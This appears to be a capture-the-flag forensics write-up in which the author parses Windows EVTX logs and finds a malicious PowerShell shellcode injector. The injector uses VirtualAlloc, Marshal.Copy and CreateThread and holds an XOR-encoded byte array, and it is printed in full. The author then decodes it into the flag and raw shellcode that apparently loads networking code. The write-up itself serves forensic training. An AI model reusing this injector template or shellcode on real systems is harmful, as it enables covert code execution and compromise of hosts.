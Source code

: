 Ended up using a utility called evtxexport to read these files and dump the output quickly and parse for clues.

`apt install libevtx-utils -y`
`
evtxexport 20181227

Missing source file.
Use evtxexport to export items stored in a Windows XML Event Viewer
Log (EVTX) file.

Usage: evtxexport [ -c codepage ] [ -f format ] [ -l log_file ]
                  [ -m mode ] [ -p resource_files_path ]
                  [ -r registy_files_path ] [ -s system_file ]
                  [ -S software_file ] [ -t event_log_type ]
                  [ -hTvV ] source

	source: the source file

	-c:     codepage of ASCII strings, options: ascii, windows-874,
	        windows-932, windows-936, windows-949, windows-950,
	        windows-1250, windows-1251, windows-1252 (default),
	        windows-1253, windows-1254, windows-1255, windows-1256
	        windows-1257 or windows-1258
	-f:     output format, options: xml, text (default)
	-h:     shows this help
	-l:     logs information about the exported items
	-m:     export mode, option: all, items (default), recovered
	        'all' exports the (allocated) items and recovered items,
	        'items' exports the (allocated) items and 'recovered' exports
	        the recovered items
	-p:     search PATH for the resource files
	-r:     name of the directory containing the SOFTWARE and SYSTEM
	        (Windows) Registry file
	-s:     filename of the SYSTEM (Windows) Registry file.
	        This option overrides the path provided by -r
	-S:     filename of the SOFTWARE (Windows) Registry file.
	        This option overrides the path provided by -r
	-t:     event log type, options: application, security, system
	        if not specified the event log type is determined based
	        on the filename.
	-T:     use event template definitions to parse the event record data
	-v:     verbose output to stderr
	-V:     print version
`
Ended up dumping them all to disk into parsable txt files quickly with:

`
ls *.evtx | while read ln ; do echo  -------- $ln --------------------------- ; evtxexport $ln >$ln.txt ; done
`
Started going thru them w/ less until I found some interesting stuff in the Powershell logs.

@15:40:31 : powershell process injector found:

# payload.ps1

Looks like some malicious stuff here:

`
Microsoft-Windows-PowerShell%4Operational.evtx.txt-String: 3			: $OleSPrlmhB = @"
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[DllImport("kernel32.dll")]
Microsoft-Windows-PowerShell%4Operational.evtx.txt-public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[DllImport("kernel32.dll")]
Microsoft-Windows-PowerShell%4Operational.evtx.txt-public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-"@
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[array]::Reverse($stage2);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$stage3 = $stage1 + $stage2;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-# Unpack Shellcode;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
Microsoft-Windows-PowerShell%4Operational.evtx.txt-{
Microsoft-Windows-PowerShell%4Operational.evtx.txt-    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-}
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-#Unpack Special Orders!
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-for($i=0;$i -lt $stage3.count;$i++){
Microsoft-Windows-PowerShell%4Operational.evtx.txt-    $stage3[$i] = $stage3[$i] -bxor 0xd1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-}
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);
`

Had to figure out how to decode. Not too hard honestly.. Finally got it, commented out the baddies and outputted some things, had to play with the format a little but I use powershell a lot so this wasn't bad for me.


#[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

write-output "`r`n`r`nstage3:"
foreach ($c in $stage3) {
  $chr=[char][int]$c
  write-host -NoNewLine $chr
}

write-output "`r`n`r`nHVOASfFuNSxRXR:"
foreach ($c in $HVOASfFuNSxRXR) {
  $chr=[char][int]$c
  write-host -NoNewLine $chr

}

#write-output "`r`n`r`nhRffYLENA:"
#foreach ($c in $hRffYLENA) {
#  write-host -NoNewLine $c
#}


#$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);



Cool! Ran it and:



┌[parrotLT@root]-[20:47-14/05]-[/home/cryptic/htb/ctf/ca2022/forensics_puppeteer]
└╼$ ./special_orders.ps1         


stage3:
HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}

HVOASfFuNSxRXR:
AÁâíRHR AQB<HÐfxR`HRQVHR H·JJM1ÉHrPH1À¬<a|, AÁÉ

rH
¬AÁ8àuñLLE9ÑuØXD@$IÐfAHÖH1ÀAÁÉ
                      HD@IÐAAXAX^YHÐZAXAYAZHì ARÿàXAYZHéKÿÿÿ]I¾ws2_32AVI	æHì I	åI¼9À¨ATI	äL	ñAºLw&ÿÕL	êhYAº)kÿÕj
A^PPM1ÉM1ÀHÿÀH	ÂHÿÀH	ÁAºêßàÿÕH	ÇjAXL	âH	ùAº¥taÿÕ
Àt
IÿÎuåèHìH	âM1ÉjAXH	ùAºÙÈ_ÿÕø~UHÄ ^	öj@AYhAXH	òH1ÉAºX¤SåÿÕH	ÃI	ÇM1ÉI	ðH	ÚH	ùAºÙÈ_ÿÕø}(XAWYh@AXjZAº
                                                                                                                                       /0ÿÕWYAºunMaÿÕIÿÎé<ÿÿÿHÃH)ÆH
öu´AÿçXjYIÇÂðµ¢VÿÕ


